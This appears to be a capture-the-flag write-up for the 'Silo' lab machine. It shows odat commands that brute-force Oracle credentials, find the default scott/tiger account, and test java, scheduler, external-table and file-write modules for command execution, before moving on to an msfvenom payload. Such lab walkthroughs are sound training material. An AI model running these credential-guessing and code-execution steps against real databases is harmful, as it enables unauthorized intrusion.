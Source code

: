 
Yes, we will find Two SID 'XE' and service 'XE' and 'XEXDB'

### Guess credentials
we will use username and password guess module of odat with SID 'XE'
```bash
# run the script
sudo python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file ./accounts/accounts_small.txt
```

![[Silo-04.png]]

Excellent! we will find Accounts is 'scott/tiger'.

### Oracle Exploit
Since we have credentials, we can begin our exploitation. First, we check java, which may be easiesty way to get RCE.


```bash
# java module
sudo python3 odat.py java -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module
```

![[Silo-05.png]]

we failed. Let's try another module dbmsscheduler.

```bash
# dbmsscheduler module
sudo python3 odat.py dbmsscheduler -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module
```

![[Silo-06.png]]

What about the `externaltable` module?

```bash
sudo python3 odat.py externaltable -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module
```
![[Silo-09.png]]
Sure, we could use external table to execute read files and execute system commands.

we also could find a way to achieve RCE. To do it this way, we will need another module `utlfile`.

```bash
# utlfile module
sudo python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module
```

![[Silo-07.png]]

Now that we are able to both write files and execute the files, we can begin to generate our payload with `msfvenom`.
